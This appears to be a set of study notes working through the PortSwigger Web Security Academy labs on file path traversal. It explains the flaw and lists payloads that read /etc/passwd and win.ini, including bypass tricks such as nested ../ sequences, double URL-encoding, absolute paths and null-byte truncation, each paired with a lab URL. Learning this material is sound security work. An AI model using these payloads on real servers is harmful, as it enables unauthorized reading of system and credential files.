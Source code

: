 ```yaml
---
description: https://portswigger.net/web-security/file-path-traversal
---
```


# File Path Traversal

Consider a shopping application that displays images of items for sale. Images are loaded via some HTML like the following:

```
<img src="/loadImage?filename=218.png">
```

The loadImage URL takes a filename parameter and returns the contents of the specified file. The image files themselves are stored on disk in the location /var/www/images/. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In the above case, the application reads from the following file path:

`/var/www/images/218.png`

The application implements no defenses against directory traversal attacks, so an attacker can request the following URL to retrieve an arbitrary file from the server's filesystem:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

This causes the application to read from the following file path:

`/var/www/images/../../../etc/passwd`

The sequence ../ is valid within a file path, and means to step up one level in the directory structure. The three consecutive ../ sequences step up from /var/www/images/ to the filesystem root, and so the file that is actually read is:

`/etc/passwd`

```
../ - unix
../ ..\ - win
../../../etc/passwd
......\windows\win.ini
../../../windows/win.ini
```

### **Lab: File path traversal, simple case**&#x20;

view-source:https://aca01f001f9d8480c09625c5001000ea.web-security-academy.net/image?filename=../../../etc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### **Lab: File path traversal, traversal sequences blocked with absolute path bypass**

If an application strips or blocks directory traversal sequences from the user-supplied filename, then it might be possible to bypass the defense using a variety of techniques.

You might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.

view-source:https://aca51f931f78f398c0c25029001c003c.web-security-academy.net/image?filename=/etc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, traversal sequences stripped non-recursively

You might be able to use nested traversal sequences, such as `....// or ..../`, which will revert to simple traversal sequences when the inner sequence is stripped.

view-source:https://ac841f421fdb6bc2c0d0f6c400e200c9.web-security-academy.net/image?filename=....//....//....//etc//passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

You might be able to use various non-standard encodings, such as `..%c0%af or ..%252f`, to bypass the input filter.&#x20;

..%c0%af - “/” character is encoded in unicode&#x20;

..%252f - “/” character is double encoded

view-source:https://ac141fe81e57ef54c093741800870035.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, validation of start of path

If an application requires that the user-supplied filename must start with the expected base folder, such as /var/www/images, then it might be possible to include the required base folder followed by suitable traversal sequences. For example:

`filename=/var/www/images/../../../etc/passwd`

view-source:https://ac981f601ef40b27c0ee254500f300da.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, validation of file extension with null byte bypass

If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension. For example:

`filename=../../../etc/passwd%00.png`

view-source:https://ac9a1fbf1e8a61a7c04945ad00ad001a.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg

